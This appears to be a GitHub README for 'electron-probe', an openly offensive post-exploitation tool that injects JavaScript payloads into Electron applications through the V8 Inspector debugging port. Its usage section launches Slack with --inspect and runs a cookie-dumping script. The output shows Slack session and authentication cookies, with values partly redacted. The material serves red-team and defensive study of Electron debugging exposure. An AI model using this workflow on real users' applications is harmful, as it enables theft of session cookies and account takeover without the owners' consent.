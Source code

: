 # electron-probe

Electron-Probe leverages the Node variant of the Chrome Debugging Protocol to execute JavaScript payloads inside of target Electron applications. This allows an attacker to extract secrets and manipulate the application as part of their post-exploitation workflow.

## Usage
Launch the Electron app target with the `--inspect` flag to start the V8 Inspector:
```
$ /Applications/Slack.app/Contents/MacOS/Slack --inspect

Debugger listening on ws://127.0.0.1:9229/b84df45f-b494-4e18-b77c-d8ed8f34c44d
For help, see: https://nodejs.org/en/docs/inspector
Initializing local storage instance
(node:82531) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `Slack --trace-deprecation ...` to show where the warning was created)
[08/29/21, 19:12:21:841] info:
╔══════════════════════════════════════════════════════╗
║      Slack 4.18.0, darwin (Store) 20.6.0 on x64      ║
╚══════════════════════════════════════════════════════╝
```

Then, use electron-probe to inject your payloads: 

```
$ ./electron-probe -inspect-target http://localhost:9229 -script scripts/dump_slack_cookies.js | jq 

[
  [... SNIP]
    {
    "name": "ssb_instance_id",
    "value": "90d5538e- [ REDACTED ]",
    "domain": ".slack.com",
    "hostOnly": false,
    "path": "/",
    "secure": false,
    "httpOnly": false,
    "session": false,
    "expirationDate": 1945639889,
    "sameSite": "unspecified"
  },
  {
    "name": "d",
    "value": "aX9QnD8F [ REDACTED ]",
    "domain": ".slack.com",
    "hostOnly": false,
    "path": "/",
    "secure": true,
    "httpOnly": true,
    "session": false,
    "expirationDate": 1941391182.507454,
    "sameSite": "lax"
  },
 [ SNIP ]
]
```

There is a small set of example scripts in the `scripts` directory to get you started.

